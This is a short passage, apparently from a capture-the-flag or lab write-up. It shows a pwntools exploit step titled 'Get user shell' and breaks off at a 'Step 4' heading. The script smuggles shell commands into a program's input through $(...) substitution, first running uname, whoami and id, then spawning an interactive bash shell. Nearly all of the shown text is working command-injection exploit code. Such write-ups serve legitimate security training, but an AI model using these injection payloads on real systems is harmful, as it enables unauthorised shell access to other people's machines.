 ```
###
# Get user shell
###

for command in ['uname -a', 'whoami', 'id']:
    r.clean()
    r.sendline('1')
    r.sendline('$({} >&2)'.format(command))

    r.recvuntil("SENDING TO REPORT MODULE")
    output = r.recvuntil('[+]').split('\n')[2]
    log.success("{} - {}".format(command, output))

r.clean()
r.sendline('1')
r.sendline('$(/bin/bash -i >&2)')

r.interactive()
```

## Step 4

